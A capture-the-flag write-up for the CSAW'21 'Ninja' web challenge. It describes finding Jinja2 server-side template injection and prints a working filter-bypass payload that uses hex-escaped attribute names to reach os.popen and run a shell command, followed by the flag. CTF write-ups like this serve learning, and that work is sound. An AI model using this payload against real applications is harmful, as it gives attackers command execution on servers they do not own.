


# Ninja

Writeup by: [GoProSlowYo](https://github.com/GoProSlowYo)

Team: [OnlyFeet](https://ctftime.org/team/144644)

Writeup URL: [GitHub](https://infosecstreams.github.io/csaw21/ninja/)

----

```text
Hey guys come checkout this website i made to test my ninja-coding skills.

http://web.chal.csaw.io:5000
```

## Initial Research

There's an input box and after a few seconds of playing with input we find that we have Server `Side Template Injection (SSTI)`.

We entered:

```jinja2
{{7*'5ev3n!+'}}
```

\

## Finding the Right SSTI Payload

There's some filters on the server-side that seem to be filtering some of the payload so we need to bypass it with some special techniques.

You can find great examples and help at the [Filter Bypass section of the PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---filter-bypass):

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fim'+'port\x5f\x5f')('o'+'s')|attr('popen')('cat flag.txt')|attr('read')()}}
```

We should URL encode that and then send it off. In this example I used [Zeds Attack Proxy](https://www.zaproxy.org/).

\

## Victory

Submit the flag and claim the points:

**flag{m0mmy_s33_1m_4_r34l_n1nj4}**
